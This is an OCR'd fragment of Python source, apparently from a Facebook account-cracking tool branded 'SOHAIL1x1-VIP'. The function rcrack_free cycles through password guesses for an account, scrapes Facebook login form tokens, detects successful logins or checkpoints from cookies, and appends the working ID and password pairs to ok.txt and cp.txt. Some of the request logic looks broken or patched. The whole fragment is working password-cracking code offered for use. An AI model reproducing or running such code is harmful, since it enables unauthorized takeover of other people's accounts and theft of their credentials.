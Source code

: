 
def rcrack_free(idf,pwv):
	#print(user)
	global loop
	global cps
	global oks
	global agents
	try:
		for ps in pwv:
	#		print(idf+'|'+ps)
			#session = requests.Session()
			sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1-VIP] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
			session = requests.Session()
			pro = random.choice(useragent)
			free_fb = session.get('https://m.alpha.facebook.com').text
			log_data = {
				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
			"try_number":"0",
			"unrecognized_tries":"0",
			"email":idf,
			"pass":ps,
			"login":"Log In"}
			header_freefb = {'Origin': 'http://fiddle.jshell.net',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept': '*/*',
    'Referer': 'http://fiddle.jshell.net/_display/',
    'X-Requested-With': 'XMLHttpRequest',
    'Connection': 'keep-alive',}		
			lo = session.post('http://fiddle.jshell.net/echo/html/', ).text
			log_cookies=session.cookies.get_dict().keys()
			#print(iid+'|'+pws+'|'+str(log_cookies))
			if 'c_user' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[151:166]
				print('\n')
				print('\033[1;92m[SOHAIL-OK] '+idf+' | '+ps+'\033[0;97m')
				cek_apk(coki)
				open('ok.txt', 'a').write(idf+' | '+ps+'\n')
				oks.append(idf)
				break
			elif 'checkpoint' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[141:156]
				print('\n')
				print('\033[1;91m[SOHAIL-CP] '+idf+' | '+ps+'\033[0;97m')
				open('cp.txt', 'a').write(idf+' | '+ps+'\n')
				cps.append(idf)
				break
			else:
				continue
		loop+=1
		bo = random.choice([m,k,h,b,u,x])
		sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1-VIP] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()